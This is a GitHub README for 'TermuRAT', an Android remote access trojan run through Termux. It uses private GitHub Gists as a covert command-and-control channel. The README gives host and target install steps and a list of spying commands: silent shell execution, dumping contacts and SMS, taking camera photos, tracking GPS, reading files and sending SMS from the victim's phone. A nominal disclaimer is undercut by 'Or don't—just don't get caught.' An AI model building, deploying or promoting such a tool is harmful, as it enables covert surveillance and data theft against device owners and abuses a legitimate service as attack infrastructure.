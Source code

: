# TermuRAT

**TermuRAT** is a stealthy, terminal-based Android Remote Access Trojan (RAT) built for Termux. It uses private GitHub Gists as a command-and-control (C2) channel, allowing remote command execution and data exfiltration without direct connections or suspicious traffic.

## 📷 Screenshot:
![The TermuRAT](IMG_20250729_184108.jpg)

## ⚙️ Features

- 🕵️ **Runs fully in Termux**
- 🛰️ **Gist-based C2** – Pulls commands and uploads results via GitHub Gists.
- 🧠 **Timestamp logic** – Executes commands only when the Gist updates.
- 🧼 **Clean & Minimal** – Lightweight, no dependencies beyond Termux and python in it.

## 🧠 How It Works

1. The Termux script checks a private GitHub Gist at intervals.
2. If the Gist has changed timestamp, it fetches the new command.
3. The command is executed locally in Termux in the target device.
4. The output is pushed back to another Gist as response.

## 📁 Structure

- `target.py` – Main RAT client script (runs on the target via Termux).
- `host.py` – Control-side script to send commands and fetch results.

## 🚀 Setup

1. Create a **GitHub Token**.
2. Set your GitHub token in host scripts.
3. Run `host.py`. It will genarate the gists and print in terminal.
4. Paste the token and gist id in target device and run `target.py` on target device via Termux.
5. Use `host.py` to send commands and read results.

## 📦 Requirements

- Termux and Termux:Api installed on target device.
- GitHub account & token with Gist access
- Terminal to send the command to target device.

## ⚠️ Disclaimer

This tool is for **educational and ethical research purposes only**. Unauthorized access to devices or systems is illegal and unethical. You are responsible for how you use TermuRAT.

## 🛠️ Installation

### On the **Host** (Control Machine):
```bash
pkg update && pkg upgrade
pkg install python git
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/HostSide
python host.py
```
🧠 host.py will auto-generate the required Gists and display their IDs. Like:
```json
{"token": "<your token>", "to_target_gist_id": "<gist_id1>", "to_host_gist_id": "<gist_id2>"}
```

Copy it and paste it in target device.


### On the **Target Device** (Termux):
```bash
pkg update && pkg upgrade
pkg install python git termux-api
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/TargetSide
nano data.json
```
Here you can see json like this: 
```json
{"token": "", "to_target_gist_id": "", "to_host_gist_id": ""}
```
⚠️ Make sure to paste the GitHub Token and Gist ID from host device.
Then run
```bash
python target.py
```

## 🧨 What Can You Do with TermuRAT?

- 🔍 **Run Shell Commands**  
  Execute any shell command on the target device—silently.

- 📂 **Access Files**  
  List directories, read file contents, or exfiltrate sensitive data.

- 📸 **Use Device Sensors**  
  If Termux:API is enabled, access location, battery status, or even take photos.

- 🧾 **Install or Run Scripts**  
  Deploy and run additional payloads or scripts on the fly.

- 🔁 **Persistent Execution**  
  With a little tweaking, make it auto-run at boot like a true lurker.

- 📡 **Communicate Silently**  
  No ports, no listeners—just GitHub being abused like a C2 server.

> And yes, it all happens through a tiny GitHub Gist. Told you it was sneaky.

## 🧪 Example Usage

After launching `target.py`, you can use various commands. Some examples are given below:


termux-toast "You’ve been hacked 😈" [Display a toast message (for fun or trolling)]

termux-vibrate -d 1000 [Vibrate the device for 1 second]

termux-battery-status [Get battery level, charging status, and health]

termux-location [Get the device's current GPS coordinates]

termux-camera-photo -c 0 [Take a photo using the front camera]
 
termux-camera-photo -c 1 [Take a photo using the rear camera]

termux-sensor -l [List all available hardware sensors]

termux-sensor -s accelerometer,gyroscope,light -n 2 | timeout 5 cat [Get real-time accelerometer data]

termux-telephony-deviceinfo [Fetch device IMEI, carrier info, and more]

termux-wifi-connectioninfo [Show current Wi-Fi connection details]
  
termux-contact-list [Dump all saved contacts]

termux-sms-list [List received SMS messages]
 
termux-sms-send -n 1234567890 "Yo, this phone is mine now." [Send an SMS from the target]

termux-notification --title "Warning" --content "You’re being watched." [Push a custom notification]

termux-dialog text [Show a prompt dialog (requires user input)]

df -h [Show internal storage usage stats]

ls /sdcard/ [List files in the device's internal storage]

cat /sdcard/secret.txt [Read contents of a specific file]

top -n 1 [Display real-time system resource usage]

ps -A [List all running processes]  
curl ifconfig.me [Get the device's public IP address]

uptime [Check how long the device has been running]

whoami [Display the current user (usually u0_aXXX in Termux)]

termurat exit -h [Internal command of TermuRAT to exit the program]


## ❌ Cons (a.k.a. Why TermuRAT Isn't God Mode... Yet)

- 📱 Requires Termux to be **open and running** on the target (no background daemon magic)
- 🐢 Kinda slow due to polling + GitHub latency (not for real-time thrills)
- 🔑 Needs a valid **GitHub token** with Gist access (and could get rate-limited or flagged)
- 🌐 Requires internet access on both sides (obviously)
- 🧠 No built-in encryption (commands and responses are plain JSON unless you DIY it)
- 🔒 Cannot bypass Android permission prompts (Termux:API features may require manual grants)
- 🚫 No persistence out-of-the-box (won’t auto-restart after reboot unless you rig it)
- 🤖 Heavily dependent on Termux:API (some devices or versions might lack support)
- 👁️ Easily detectable by someone opening Termux and seeing output or history
- 💥 Can break if Gist is deleted, token revoked, or GitHub throws a tantrum
- - 🔗 A single host can control only **one target per Gist pair** (no multi-target support out of the box)

> Think of TermuRAT as a stealthy intern—it’ll do your bidding, but it won’t take over the world. Yet.


## 🧠 Final Words

TermuRAT is a proof of concept that shows how simple tools can be repurposed for powerful, stealthy control—without fancy exploits, just creativity and clever abuse of APIs. While it’s not a military-grade RAT, it gets the job done quietly, like a whisper in the terminal.

Use it wisely. Use it ethically. Or don’t—just don’t get caught.



**Built with Python, powered by GitHub, operated through Termux.** 
